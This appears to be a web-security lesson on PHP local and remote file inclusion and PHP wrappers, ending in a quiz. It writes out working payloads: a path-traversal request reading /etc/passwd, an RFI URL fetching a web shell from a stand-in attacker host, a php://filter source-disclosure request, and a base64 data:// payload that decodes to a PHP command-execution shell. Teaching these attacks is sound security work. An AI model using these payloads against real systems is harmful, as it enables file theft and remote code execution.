

# File Inclusion (LFI/RFI & Wrappers)

**File Inclusion** is a vulnerability where an application allows a user to control which file is included or executed by the application's code. This is common in languages like PHP where functions like `include()`, `require()`, or `file_get_contents()` are misused.

---

## 1. Local File Inclusion (LFI)

LFI occurs when an attacker can read files that already exist on the server's local filesystem.

**Vulnerable Code:**
`<?php include($_GET['page']); ?>`

**Attack:**
`http://target.com/index.php?page=/etc/passwd`

By using **Path Traversal** (`../`), you can jump out of the web directory and into sensitive system folders.

<TerminalWindow cmd="curl http://target.com/index.php?page=../../../../etc/passwd" output="root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[!] Sensitive System File Leaked via LFI" />

---

## 2. Remote File Inclusion (RFI)

RFI occurs when the application is configured to allow including files from a remote URL. This allows the attacker to host a malicious script (like a web shell) on their own server and execute it on the target.

**Attack:**
`http://target.com/index.php?page=http://hacker.com/shell.txt`

<InfoBox type="warning">
**RFI Pre-requisite:** For RFI to work in PHP, the setting `allow_url_include` must be turned **ON** in the `php.ini` file. Most modern servers have this OFF by default.
</InfoBox>

---

## 3. PHP Wrappers (The Pro Move)

Even if you can't get a full shell, you can use **PHP Wrappers** to extract data or bypass filters.

### `php://filter`
Used to read the source code of the application itself. If you just include `index.php`, it will try to execute it. But if you encode it in Base64, you can read it!

**Attack:**
`?page=php://filter/read=convert.base64-encode/resource=config.php`

### `data://`
Used to inject raw data directly into the inclusion function.
`?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+`

---

## Visualizing the Flow

---

## Knowledge Check

<Quiz 
  question="Which technique is used to jump back through folders in an LFI attack?"
  options={["Path Clipping", "Directory Hopping", "Path Traversal (../)", "Root Forcing"]}
  answer="Path Traversal (../)"
  explanation="Path traversal characters (dot-dot-slash) are used to navigate up the directory tree."
/>
